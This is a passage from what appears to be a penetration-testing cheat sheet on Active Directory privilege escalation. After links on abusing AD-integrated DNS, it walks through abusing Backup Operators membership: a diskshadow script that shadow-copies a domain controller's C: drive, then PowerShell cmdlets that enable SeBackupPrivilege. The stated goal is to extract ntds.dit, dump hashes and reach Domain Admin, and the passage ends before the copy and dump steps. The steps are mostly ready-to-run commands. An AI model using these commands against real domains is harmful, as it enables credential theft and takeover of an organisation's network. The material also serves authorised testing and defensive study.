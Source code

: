 ### Abusing Active Directory-Integraded DNS

* [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
* [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
*   [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

    **Abusing Backup Operators Group**

_What is this?: If we manage to compromise a user account that is a member of the Backup Operators group, we can then abuse its SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA._

1\) Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:

Create a .txt file that will contain the shadow copy process script

```
Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup  
}
```

Execute diskshadow with our script as parameter

```
diskshadow /s script.txt
```

2\) Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:

Importing both dlls from the repo using powershell

```
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
```

Checking if the SeBackupPrivilege is enabled

```
Get-SeBackupPrivilege
```

If it isn't we enable it

```
Set-SeBackupPrivilege
```
